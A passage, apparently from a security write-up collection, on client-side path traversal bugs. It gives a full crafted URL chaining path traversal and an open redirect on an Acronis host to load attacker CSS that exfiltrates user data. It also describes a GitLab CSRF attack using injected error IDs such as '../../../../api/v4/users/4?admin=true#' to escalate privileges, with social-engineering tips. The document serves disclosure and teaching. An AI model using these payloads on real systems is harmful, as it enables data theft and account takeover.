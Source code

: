In this payload, the first action is to overwrite the relative path to the root directory of the application. Next, it specifies the vulnerable endpoint for Open Redirect, which then redirects the user to `http://localhost/core/css.css`—where the CSS file used to exfiltrate user information is hosted.

As a result, the browser will load your CSS file, allowing you to exfiltrate personal data from the user.

The final URL to load the external CSS would look like this:

```http
https://mc-beta-cloud.acronis.com/mc/?color_scheme=%2F..%2F..%2F..%2F
api%2F2%2Fidp%2Fauthorize%2F%3Fclient_id%3Dfb2bf44e-ac14-444a-b2a9-e5e81fe73b80
%26redirect_uri%3D%252Fhci%252Fcallback%26response_type%3D
code%26scope%3Dopenid%26state%3Dhttp%253A%252F%252Flocalhost%252Fcss%252Fcore.css
%26nonce%3Dbhgjuvrrvpwauibleqhvfqat
```

**POC**\
[https://youtu.be/srPv75HS6Nk](https://youtu.be/srPv75HS6Nk)

### CSPT leading to 1-click CSRF in Gitlab

{% embed url="https://gitlab.com/gitlab-org/gitlab/-/issues/365427" %}

**Vulnerability Description**

The vulnerability exploits the GitLab error tracking functionality by configuring a project to use a compromised Sentry server. Here’s a detailed breakdown of the attack vector:

**Setup and Configuration:**

An attacker begins by setting up a GitLab project with a malicious Sentry server URL. This server is designed to provide error data with specially crafted IDs that include path traversal sequences. Error tracking is then enabled in the GitLab project using this fake Sentry server. This setup ensures that any errors reported by this server will appear on the GitLab error tracking page.

**Injection and Manipulation:**

The attacker crafts error IDs containing path traversal patterns, such as `../../../../api/v4/`, which manipulate GitLab's API endpoints. For instance, an error ID like `../../../../api/v4/users/4?admin=true#` can be injected to perform actions such as escalating user privileges. The lack of sanitization and validation for these IDs allows such manipulations to reach the API endpoints.

**Exploit Mechanism:**

On the GitLab error tracking page, these manipulated error IDs generate action buttons such as "ignore" or "resolve." When a user clicks on these buttons, a PUT request is sent to the GitLab API with the injected path. The lack of validation on the error ID means that any arbitrary PUT request can be made, leading to unauthorized actions on the GitLab instance.

**Social Engineering:**

To enhance the effectiveness of the attack, the attacker sets the error titles to blank spaces, thereby removing links to detailed error pages and emphasizing only the action buttons. This tactic increases the likelihood of the victim (especially if an administrator) interacting with these buttons under the false pretense of resolving errors.
